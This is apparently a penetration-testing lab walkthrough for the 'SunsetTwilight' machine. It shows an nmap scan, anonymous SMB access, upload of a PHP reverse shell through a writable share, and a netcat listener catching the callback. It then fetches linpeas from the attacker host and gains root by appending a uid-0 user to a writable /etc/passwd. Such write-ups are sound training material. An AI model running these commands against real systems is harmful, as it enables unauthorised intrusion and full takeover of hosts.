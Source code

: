 # SunsetTwilight

## Nmap

```
sudo nmap 192.168.120.91 -p- -sS -sV                                                                

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp    open  smtp        Exim smtpd
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
3306/tcp  open  mysql       MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
8080/tcp  open  http        PHP cli server 5.5 or later
63525/tcp open  http        PHP cli server 5.5 or later
Service Info: Host: TWILIGHT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First up is checking SMB. We are able to connect and list shared without providing credentials as shown below:

```
smbclient -U '' -L \\\\192.168.120.91\\ 
```

![](<../../../.gitbook/assets/image (1090).png>)

We can then move into the WRKSHARE directory to view the contents:

```
smbclient -U '' \\\\192.168.120.91\\WRKSHARE\\
```

![](<../../../.gitbook/assets/image (1091).png>)

As this looks like we can see the entire directory from '/' we can have a look about for interesting information. We know that port 80 is open so likely we are running a webserver.

Looking at the contents of the directory /var/www/html/ we can see PHP files.

![](<../../../.gitbook/assets/image (1092).png>)

If we can upload a reverse PHP shell we should in theory be able to get shell access. I used the following command to upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) with curl into the /var/www/html directory:

```
curl --upload-file /home/kali/scripts/phpshell.php -u '' smb://192.168.120.91/WRKSHARE/var/www/html/phpshell.php
```

![](<../../../.gitbook/assets/image (1093).png>)

Checking the directory contents with `smbclient` again shows we have uploaded our PHP reverse shell.

![](<../../../.gitbook/assets/image (1094).png>)

We can then set a `netcat` listener up then execute the shell with `curl`.

```
sudo nc -lvp 80
curl http://192.168.120.91/phpshell.php 
```

![](<../../../.gitbook/assets/image (1095) (1).png>)

The current shell can then be improved by:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](<../../../.gitbook/assets/image (1096) (1).png>)

Next we can move into the /tmp/ directory. Started a `Python SimpleHTTPServer` on my attacking machine and transferred over `linpeas`.

```
wget http://192.168.49.120/linpeas.sh
```

`linpeas` picks up that /etc/passwd is writeable by everyone. Which means we can make changes to the file.

![](<../../../.gitbook/assets/image (1097).png>)

As such we can add a new root user to the target machine to gain root access.

Generate password on attacking machine:

```
openssl passwd -1 -salt password password 
```

Echo the password and new user to the end of /etc/passwd on the target machine.

```
echo 'owned:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:owned:/root:/bin/bash' >> /etc/passwd
```

We can then use `su` to move into the new account and gain a root shell.

![](<../../../.gitbook/assets/image (1098).png>)
